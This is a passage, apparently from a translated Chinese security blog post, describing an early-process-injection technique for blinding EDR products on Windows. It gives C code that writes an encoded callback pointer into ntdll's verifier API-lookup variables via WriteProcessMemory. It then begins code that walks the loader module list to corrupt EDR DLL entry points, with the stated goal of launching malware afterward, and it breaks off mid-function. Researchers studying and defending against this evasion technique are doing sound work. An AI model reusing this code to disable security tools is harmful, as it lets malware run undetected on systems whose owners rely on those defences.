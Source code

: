 现在我们可以编写指针并使用 WriteProcessMemory() 将 AvrfpAPILookupCallbacksEnabled 设置为 1：

```plain
// ntdll pointer are encoded using the system pointer cookie located at SharedUserData!Cookie
    LPVOID callback_ptr = encode_system_ptr(&My_LdrGetProcedureAddressCallback);

    // set ntdll!AvrfpAPILookupCallbacksEnabled to TRUE
    uint8_t bool_true = 1;

    // set ntdll!AvrfpAPILookupCallbackRoutine to our encoded callback address
    if (!WriteProcessMemory(pi.hProcess, (LPVOID)(avrfp_address+8), &callback_ptr, sizeof(ULONG_PTR), NULL)) {
        printf("Write 2 failed, error: %d\n", GetLastError());
    }

    if (!WriteProcessMemory(pi.hProcess, (LPVOID)avrfp_address, &bool_true, 1, NULL)) {
        printf("Write 3 failed, error: %d\n", GetLastError());
    }
```

## 第 3 步：执行回调并中和 EDR

一旦我们在挂起的进程上调用 ResumeThread()，每次调用 LdrpGetProcedureAddress() 时都会执行我们的回调，其中第一个应该是在 LdrpInitializeProcess() 加载 kernelbase.dll 时。

[![](assets/1709531057-f0a79cff642a52c838dc4fcad8f1bbe3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229235150-738d4f1e-d71a-1.png)

注意：当我们触发回调时，kernelbase.dll 没有完全加载，并且触发发生在 LdrLoadDll 内部，因此仍然获取加载程序锁。尚未加载的 Kernelbase 意味着我们只能调用 ntdll 函数，并且加载程序锁会阻止我们启动任何线程或进程，以及加载 DLL。

由于我们能做的事情受到高度限制，因此最简单的操作方案是阻止加载 EDR DLL，然后等到进程完全初始化后再启动恶意软件。

为了确保我测试的 EDR 得到适当的中和，我采取了多管齐下的方法。

### DLL 破坏

在流程生命周期的早期，只应加载 ntdll.dll、kernel32.dll 和 kernelbase.dll。某些 EDR 可能会抢先将其 DLL 映射到内存中，但要等到稍后再调用入口点。虽然我们可以通过调用 ntdll !LdrUnloadDll() 来卸载这些 DLL 一旦加载程序锁被释放（或手动执行），一个快速而肮脏的解决方案就是破坏它们的入口点。

我们要做的是遍历 LDR 模块列表，并替换任何不应该存在的 DLL 的入口点地址。

```plain
DWORD EdrParadise() {
    // we'll replaced the EDR entrypoint with this equally useful function
    // todo: stop malware

    return ERROR_TOO_MANY_SECRETS;
}

void DisablePreloadedEdrModules() {
    PEB* peb = NtCurrentTeb()->ProcessEnvironmentBlock;
    LIST_ENTRY* list_head = &peb->Ldr->InMemoryOrderModuleList;
    LIST_ENTRY* list_entry = list_head->Flink->Flink;

    while (list_entry != list_head) {
```